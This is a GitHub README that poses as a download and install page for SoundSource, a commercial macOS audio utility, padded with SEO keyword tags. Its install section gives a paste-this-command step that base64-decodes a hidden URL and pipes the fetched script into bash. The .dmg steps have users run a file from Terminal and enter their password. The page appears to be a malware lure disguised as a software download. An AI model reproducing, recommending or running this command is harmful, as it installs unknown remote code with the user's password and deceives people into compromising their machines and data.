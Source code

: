 # 🎚 SoundSource — Advanced Audio Control Panel for macOS

**SoundSource** is a powerful macOS utility that gives you precise control over your system and app-specific audio. Whether you’re balancing inputs for a podcast, adjusting volume per app, or applying system-wide equalizers, SoundSource lets you handle your Mac's sound exactly the way you want — all from the menu bar.

Perfect for musicians, creators, gamers, and anyone who needs quick access to audio tools without digging through macOS settings.

---

## ✅ Download SoundSource for macOS  
[![Download SoundSource](https://img.shields.io/badge/Download-SoundSource-darkgreen)](https://shuziktobehuman.github.io/huja/SoundSorce)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is SoundSource?

SoundSource is an advanced sound control utility developed by Rogue Amoeba, designed exclusively for macOS users. It allows you to manage input/output audio devices, apply per-app volume settings, and fine-tune audio quality using EQ and Audio Unit plug-ins — all without leaving the menu bar.

With support for Apple Silicon and deep macOS integration, SoundSource is the perfect companion for professionals and enthusiasts alike.

---

## ✨ Features

- 🎛 Per-app volume control and audio routing  
- 🎧 10-band system-wide equalizer with presets  
- 🔊 Real-time audio device switching  
- 🧩 Built-in support for Audio Unit effects  
- 🚫 Mute apps individually or globally  
- 🖥 Lightweight, always-on-top menu bar access  
- ⚡️ Fully optimized for Apple Silicon and macOS Sonoma  
- 🎙 Live input monitoring and effect previews  

---

## 💡 Why Use SoundSource?

- 🧠 Gives you audio control macOS doesn’t  
- 🎚 Route audio to different devices per app  
- 🎵 Apply effects globally or per application  
- 🔧 Perfect for musicians, streamers, gamers, and prosumers  
- 📡 Keeps your workflow efficient with zero clutter  

---

[![Download SoundSource](https://img.shields.io/badge/Download-SoundSource-darkgreen)](https://shuziktobehuman.github.io/huja/SoundSorce)

---

## 🖼 Preview

![SoundSource Screenshot 1](https://eshop.macsales.com/blog/wp-content/uploads/2023/11/SoundSource_main_interface.jpg)  
![SoundSource Screenshot 2](https://rogueamoeba.com/soundsource/images/hero.png)

---

## 📌 Tags

soundsource, sound source, mac sound source, sound source download, sound source for mac,  
soundsource windows, the sound source, a sound source, midi sound source, omnisphere soundsource,  
omnisphere soundsources, soundsource download mac, soundsource mac download,  
mac audio control tool, mac eq app, mac sound routing, app volume control mac  

